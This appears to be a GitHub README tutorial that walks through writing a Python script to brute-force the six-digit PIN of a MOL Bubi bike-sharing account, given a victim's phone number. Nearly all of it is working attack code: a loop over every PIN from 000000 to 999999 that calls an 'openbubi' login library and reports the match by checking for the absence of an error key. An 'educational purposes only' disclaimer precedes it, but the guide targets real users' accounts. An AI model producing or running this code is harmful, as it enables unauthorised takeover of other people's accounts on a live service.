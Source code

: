 # <p align="center">Using for brute force attacks</p>

*Disclaimer: this guide is for educational purposes only. I do not support black-hat hacking, because it is illegal*

## What are we going to do?

We are going to make an algorithm, that tries to login to a MOL Bubi account with every 6-digit password

## Write the program

First of all, make a new Python script in the cloned folder

```bash
mkdir bubiforce && touch bubiforce/bruteforce.py
```

Then import all the necessary modules in the newly created program/script

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing
```

Then get an input from the user about the phone number of the victim

```python
phoneNumber = getpass.getpass("Please enter a phone number: ")
```

Then make a `for` cycle, that iterates over the list of six-digit numbers (using itertools), and tries every possible password for authenticating

```python
# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check, if there is an error key, so we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program

```
